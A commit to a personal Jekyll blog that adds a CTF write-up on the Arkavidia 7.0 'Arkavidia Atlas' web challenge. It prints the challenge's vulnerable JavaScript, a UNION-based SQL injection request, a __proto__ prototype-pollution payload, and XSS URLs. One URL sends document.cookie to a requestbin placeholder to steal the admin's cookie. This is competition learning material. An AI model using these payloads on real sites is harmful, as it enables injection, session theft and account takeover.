

Before and after one commit to rafiem/rafiem.github.io, a Jekyll site: the page built from index.html, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; the list of posts is cut into pages by our own code; some of the changed lines change nothing that is shown; grey boxes are pictures that could not be loaded.

Commit message:
arkav7 atlas writeup

````diff
--- a/_config.yml
+++ b/_config.yml
@@ -21,7 +21,7 @@
   name: Rafie Muhammad
   email: rafiemuhammad07@gmail.com
   github: rafiem
-  twitter: rafiem777
+  twitter: yeraisci_
   linkedin: rafiemuhammad
   hackerone: rafiem
   bio: Try Hard Learner
--- /dev/null
+++ b/_posts/2021-02-28-Arkavidia7.0-CTF-Writeup-Arkavidia-Atlas.md
@@ -0,0 +1,449 @@
+---
+layout: post
+title: "[Arkavidia 7.0 CTF Writeup] Arkavidia Atlas"
+categories: [ctf]
+tags: [arkavidia, ctf]
+permalink: /ctf/arkavidia7/arkavidia-atlas
+description: Today, me and my team compete on Arkavidia 7.0 CTF Final held by Institut Teknologi Bandung. We unfortunately don't get the win, but manage to solve one of the interesting web challenge. We got the flag by combining SQL Injection technique and Prototype Pollution to achieve XSS.
+---
+
+## Chall Description
+<hr>
+
+<img src="/assets/media/arkavidia_atlas_chall_desc.png" class="media_center"/>
+
+
+## Initial Foothold
+<hr>
+
+When first visit the webpage, we get this view of some sort of maps :
+
+![Front View of Web](/assets/media/arkavidia_atlas_web_view.png)
+
+There is something interesting on the source page and on the JS files :
+
+### view-source:http://slave2.ctf.arkavidia.id:10021/
+```html
+<!doctype html>
+<html>
+
+<head>
+    <title>Arkavidia Atlas</title>
+    <meta charset="UTF-8" />
+    <meta name="viewport" content="width=device-width, initial-scale=1.0" />
+    <link href="tailwind.css" rel="stylesheet">
+    <link rel="stylesheet" href="https://unpkg.com/leaflet@1.7.1/dist/leaflet.css" integrity="sha512-xodZBNTC5n17Xt2atTPuE1HxjVMSvLVW9ocqUKLsCC5CXdbqCmblAshOMAS6/keqq/sMZMZ19scR4PsZChSR7A==" crossorigin="" />
+    <script src="https://unpkg.com/leaflet@1.7.1/dist/leaflet.js" integrity="sha512-XQoYMqMTK8LvdxXYG3nZ448hOEQiglfqkJs1NOQV44cWnUrBc8PkAOcXy20w0vlaXaVUearIOBhiXZ5V3ynxwA==" crossorigin=""></script>
+    <script src="https://cdnjs.cloudflare.com/ajax/libs/leaflet.markercluster/1.4.1/leaflet.markercluster.js" integrity="sha512-MQlyPV+ol2lp4KodaU/Xmrn+txc1TP15pOBF/2Sfre7MRsA/pB4Vy58bEqe9u7a7DczMLtU5wT8n7OblJepKbg==" crossorigin="anonymous"></script>
+    <script src="https://code.jquery.com/jquery-3.5.1.min.js" integrity="sha256-9/aliU8dGd2tb6OSsuzixeV4y/faTqgFtohetphbbj0=" crossorigin="anonymous"></script>
+    <script src="atlas.js" type="text/javascript"></script>
+</head>
+
+<body>
+    <div id="map" class="w-full h-full absolute" style="z-index: -1"></div>
+    <div class="bg-white shadow-lg w-full max-w-md absolute m-4 rounded-sm">
+        <div class="p-3">
+            <h1 class="text-2xl">Arkavidia Atlas</h1>
+        </div>
+        <div id="inst" class="p-3 border-t">
+            <p>Click on a pin to see the location details</p>
+        </div>
+        <div id="details" class="hidden border-t">
+            <img id="poi-preview" width="100%" class="mb-2" />
+            <div class="p-3">
+                <h3 class="text-xl" id="poi-title"></h3>
+                <p id="poi-desc" class="mt-2 text-gray-500"></p>
+                <div class="mt-3">
+                    <span class="text-red-500 text-xs cursor-pointer" id="close-btn">&#x2715; &nbsp;Close Details</span>
+                </div>
+            </div>
+        </div>
+    </div>
+    <form id="reportform" action="report.php" method="post">
+        <input type="hidden" name="hash" id="report-url" />
+    </form>
+</body>
+
+<script type="text/javascript" src="app.js"></script>
+
+</html>
+```
+
+### view-source:http://slave2.ctf.arkavidia.id:10021/atlas.js
+```js
+const isObject = (obj) => typeof obj === "object";
+
+function merge(dest, src) {
+  for (let attr in src) {
+    if (isObject(src[attr])) {
+      if (!dest[attr]) dest[attr] = {};
+      merge(dest[attr], src[attr]);
+    } else {
+      dest[attr] = src[attr];
+    }
+  }
+
+  return dest;
+}
+
+function parseHash(hash) {
+  if (!hash) return {};
+  let parts = hash.split("&");
+  let out = {};
+  for (let part in parts) {
+    let sect = parts[part].split("=");
+    let key = sect[0];
+    let val = decodeURIComponent(sect[1]);
+
+    merge(out, { [key]: val });
+  }
+
+  return out;
+}
+
+function setHashParams(newParams) {
+  hashParams = merge(hashParams, newParams);
+  let attrStrings = [];
+  for (let attr in hashParams) {
+    attrStrings.push(attr + "=" + encodeURIComponent(hashParams[attr]));
+  }
+  window.location.href = "#" + attrStrings.join("&");
+}
+
+var hash = window.location.hash.substring(1);
+var hashParams = parseHash(hash);
+```
+
+### view-source:http://slave2.ctf.arkavidia.id:10021/app.js
+```js
+var lat = -6.8905652;
+var long = 107.6101062;
+var zoom = 17;
+
+window.onhashchange = function () {
+  let hash = window.location.hash.substring(1);
+  hashParams = parseHash(hash);
+  let openedId = hashParams.o;
+  openDetails(openedId);
+};
+
+if (hashParams.c) {
+  lat = hashParams["c.lat"];
+  long = hashParams["c.lon"];
+}
+
+if (hashParams.z) {
+  zoom = hashParams.z;
+}
+
+var points = {};
+
+function openDetails(id) {
+  let point = points[id];
+  if (point) {
+    $("#details").show();
+    $("#inst").hide();
+    $("#poi-title").text(point.name);
+    if (point.img_uri) {
+      $("#poi-preview").attr("src", point.img_uri).show();
+    } else {
+      $("#poi-preview").hide();
+    }
+
+    point.isHtml
+      ? $("#poi-desc").html(point.description)
+      : $("#poi-desc").text(point.description);
+  } else {
+    $("#details").hide();
+    $("#inst").show();
+  }
+}
+
+function loadBounds(lngLb, latLb, lngUb, latUb) {
+  $.get(
+    "poi.php",
+    { lng_lb: lngLb, lat_lb: latLb, lng_ub: lngUb, lat_ub: latUb },
+    function (data) {
+      markers.clearLayers();
+      points = {};
+      for (let key in data) {
+        let point = data[key];
+
+        merge(points, { [point.id]: point });
+
+        if (point.id === hashParams.o) {
+          openDetails(point.id);
+        }
+
+        let id = point.id;
+        L.marker([point.lat, point.lng])
+          .on("click", function () {
+            if (hashParams.o !== id) {
+              setHashParams({ o: id });
+            } else {
+              setHashParams({ o: "" });
+            }
+          })
+          .addTo(markers);
+      }
+    }
+  );
+}
+
+var map = L.map("map", { zoomControl: false, maxZoom: 18 }).setView(
+  [lat, long],
+  zoom
+);
+let markers = L.markerClusterGroup();
+map.addLayer(markers);
+
+map.on("moveend", function (e) {
+  let center = map.getCenter();
+  let zoom = map.getZoom();
+  let bounds = map.getBounds();
+  loadBounds(
+    bounds._southWest.lng,
+    bounds._southWest.lat,
+    bounds._northEast.lng,
+    bounds._northEast.lat
+  );
+
+  setHashParams({
+    "c.lat": center.lat,
+    "c.lon": center.lng,
+    z: zoom,
+  });
+});
+
+$("#close-btn").click(function () {
+  setHashParams({ o: "" });
+});
+
+function reportMap() {
+  $("#report-url").val(window.location.hash.substring(1));
+  $("#reportform").submit();
+}
+
+L.tileLayer("https://{s}.tile.openstreetmap.org/{z}/{x}/{y}.png", {
+  attribution:
+    '&copy; <a href="https://www.openstreetmap.org/copyright">OpenStreetMap</a> contributors | <a class="cursor-pointer" onclick="reportMap();">Report Map</a>',
+}).addTo(map);
+
+let bounds = map.getBounds();
+let lngLb = hashParams["b.lng.lb"] || bounds._southWest.lng;
+let latLb = hashParams["b.lat.lb"] || bounds._southWest.lat;
+let lngUb = hashParams["b.lng.ub"] || bounds._northEast.lng;
+let latUb = hashParams["b.lat.ub"] || bounds._northEast.lat;
+
+loadBounds(lngLb, latLb, lngUb, latUb);
+```
+
+From all of the code above, we assume there should be a XSS technique involved on the solve step to get the flag. We get this assumption based on there is exist a form that we can report something to admin and there is exist an unsafe *merge* function that used on the JS code.
+
+
+## Finding the SQL Injection
+<hr>
+
+On the *app.js*, there is a background request made to path */poi.php* with some parameters. My teammate, Fadli, then found that there is SQLi on the GET param request. This is the example request and response from normal request :
+<table align="center">
+  <thead>
+    <tr>
+      <th>Request</th>
+      <th>Response</th>
+    </tr>
+  </thead>
+  <tbody>
+    <tr>
+      <td>
+        <pre>GET /poi.php?lng_lb=107.604957818985&lat_lb=-6.891912527239271&lng_ub=107.61525750160219&lat_ub=-6.889223063179617 HTTP/1.1
+Host: slave2.ctf.arkavidia.id:10021
+User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
+Accept: */*
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+X-Requested-With: XMLHttpRequest
+Connection: close
+Referer: http://slave2.ctf.arkavidia.id:10021/
+Cache-Control: max-age=0
+        </pre>
+      </td>
+      <td>
+        <pre>HTTP/1.1 200 OK
+Date: Sun, 28 Feb 2021 11:51:00 GMT
+Server: Apache/2.4.38 (Debian)
+X-Powered-By: PHP/7.2.34
+Content-Length: 846
+Connection: close
+Content-Type: application/json
+<br>
+[
+  {
+    "id": "1",
+    "lat": "-6.890572547912598",
+    "lng": "107.6097640991211",
+    "name": "Labtek V Benny Subianto",
+    "description": "Labtek V adalah gedung tercinta yang digunakan oleh mahasiswa Teknik Informatika dan Sistem dan Teknologi Informasi ITB. Gedung ini memiliki kembaran lainnya, yaitu Labtek VI, VII, dan VIII yang masing-masing memiliki namesake yang berbeda.",
+    "img_uri": "https://www.itb.ac.id/files/images/1492062830.jpg",
+    "meta": null
+  },
+  {
+    "id": "3",
+    "lat": "-6.891597",
+    "lng": "107.610387",
+    "name": "Lapcin & Lapbas",
+    "description": "Di dua lapangan ini biasanya IT Festival Arkavidia dilaksanakan! Lapangan Cinta dan Lapangan Basket merupakan saksi bisu dari kegiatan kemahasiswaan di ITB, baik itu konser maupun agitasi.",
+    "img_uri": "https://rinaldimunir.files.wordpress.com/2012/12/271120122982.jpg?w=1280&h=960",
+    "meta": {
+      "establishment": "open space"
+    }
+  }
+]
+        </pre>
+      </td>
+    </tr>
+  </tbody>
+</table>
+
+From the normal request above, we know that the *meta* value could contain another JSON object, so we try to use **JSON_OBJECT** of the MySQL to select some JSON object on the *meta* value.
+<table align="center">
+  <thead>
+    <tr>
+      <th>Request</th>
+      <th>Response</th>
+    </tr>
+  </thead>
+  <tbody>
+    <tr>
+      <td>
+        <pre>GET /poi.php?lng_lb=1&lat_lb=1&lng_ub=(select+108)+and+false+union+select+1,2,3,4,5,1,JSON_OBJECT('test',JSON_OBJECT('test2','asd'))+--+-&lat_ub=1 HTTP/1.1
+Host: slave2.ctf.arkavidia.id:10021
+User-Agent: Mozilla/5.0 (X11; Fedora; Linux x86_64; rv:85.0) Gecko/20100101 Firefox/85.0
+Accept: */*
+Accept-Language: en-US,en;q=0.5
+Accept-Encoding: gzip, deflate
+X-Requested-With: XMLHttpRequest
+Connection: close
+Referer: http://slave2.ctf.arkavidia.id:10021/
+        </pre>
+      </td>
+      <td>
+        <pre>HTTP/1.1 200 OK
+Date: Sun, 28 Feb 2021 12:02:26 GMT
+Server: Apache/2.4.38 (Debian)
+X-Powered-By: PHP/7.2.34
+Content-Length: 107
+Connection: close
+Content-Type: application/json
+<br>
+[
+  {
+    "id": "1",
+    "lat": "2",
+    "lng": "3",
+    "name": "4",
+    "description": "5",
+    "img_uri": "1",
+    "meta": {
+      "test": {
+        "test2": "asd"
+      }
+    }
+  }
+]
+        </pre>
+      </td>
+    </tr>
+  </tbody>
+</table>
+
+This SQLi will be used on building the payload for Prototype Pollution XSS.
+
+## Prototype Pollution
+<hr>
+
+We know there is an unsafe *merge* function that can be used for Prototype Pollution. For the reference of what is Prototype Pollution ? Can be found [here](https://portswigger.net/daily-swig/prototype-pollution-the-dangerous-and-underrated-vulnerability-impacting-javascript-applications) .
+
+<br>
+
+First, when the web loads, it will try to build **hashParams** object by using the value supplied on the **location.hash.substring(1)**. Then the webpage will build some parameter and finally call function **loadBounds** :
+```js
+let lngLb = hashParams["b.lng.lb"] || bounds._southWest.lng;
+let latLb = hashParams["b.lat.lb"] || bounds._southWest.lat;
+let lngUb = hashParams["b.lng.ub"] || bounds._northEast.lng;
+let latUb = hashParams["b.lat.ub"] || bounds._northEast.lat;
+
+loadBounds(lngLb, latLb, lngUb, latUb);
+```
+
+On the **loadBounds** function, there will be a GET request to */poi.php* and the response data will be build to **points** object using unsafe **merge** function :
+```js
+function loadBounds(lngLb, latLb, lngUb, latUb) {
+  $.get(
+    "poi.php",
+    { lng_lb: lngLb, lat_lb: latLb, lng_ub: lngUb, lat_ub: latUb },
+    function (data) {
+      markers.clearLayers();
+      points = {};
+      for (let key in data) {
+        let point = data[key];
+
+        merge(points, { [point.id]: point });
+
+        if (point.id === hashParams.o) {
+          openDetails(point.id);
+        }
+```
+
+After that, there will be a call to function **openDetails** using the *id* received from the response :
+```js
+function openDetails(id) {
+  let point = points[id];
+  if (point) {
+    $("#details").show();
+    $("#inst").hide();
+    $("#poi-title").text(point.name);
+    if (point.img_uri) {
+      $("#poi-preview").attr("src", point.img_uri).show();
+    } else {
+      $("#poi-preview").hide();
+    }
+
+    point.isHtml
+      ? $("#poi-desc").html(point.description)
+      : $("#poi-desc").text(point.description);
+  } else {
+    $("#details").hide();
+    $("#inst").show();
+  }
+}
+```
+
+Since we control the value on the **points** object (using SQLi before), we have an idea to inject XSS payload on the **description** value. But, there is one requirement, **point** object must have filled value **isHtml** on the object. But, like you see on the response, there is no **isHtml** value. Do you remember previously that we can inject JSON object on the **meta** response value ? Yes, we will use that to host our Prototype Pollution payload. Since the unsafe **merge** function works recursively, we could pollute the JS prototype by using this value on the **meta** response :
+```json
+{"__proto__": {"isHtml": "true"}}
+```
+
+Above payload will pollute the JS prototype and add **.isHtml** value to all the object exist.
+
+
+## Combine the Vuln and Get the Flag
+<hr>
+
+By combining the two vuln, we come up with this url payload :
+```
+http://slave2.ctf.arkavidia.id:10021/#b.lng.lb=1&b.lat.lb=1&b.lng.ub=(select%20108)%20and%20false%20union%20select%20'bruh',2,3,4,'<script>alert(document.domain);</script>',1,JSON_OBJECT('__proto__',JSON_OBJECT('isHtml','true'))%20--%20-&b.lat.ub=1&o=bruh
+```
+
+Visiting above url, we could get a working XSS :
+![XSS Trigger](/assets/media/arkavidia_atlas_xss.png)
+
+After verify the working XSS, we then try to change the url payload to perform a request to our requestbin and try to leak the admin (if there is any):
+```
+http://slave2.ctf.arkavidia.id:10021/#b.lng.lb=1&b.lat.lb=1&b.lng.ub=(select%20108)%20and%20false%20union%20select%20'bruh',2,3,4,'%3Cimg%20src%3d%22https://<reqbin url>/?a%3d%22%2bdocument.cookie%3E',1,JSON_OBJECT('__proto__',JSON_OBJECT('isHtml','true'))%20--%20-&b.lat.ub=1&o=bruh
+```
+
+Send it by trigger **reportMap()** function on the console after visiting above url, wait some time, and we receive connection from admin and the flag is located on the User-Agent :
+
+<img src="/assets/media/arkavidia_atlas_flag.png" class="media_center"/>
+
+### Flag : Arkav7{capek_bikin_soalnya_sumpah}
````
Also changed, not shown: assets/media/arkavidia_atlas_chall_desc.png (added), assets/media/arkavidia_atlas_flag.png (added), assets/media/arkavidia_atlas_web_view.png (added), assets/media/arkavidia_atlas_xss.png (added).
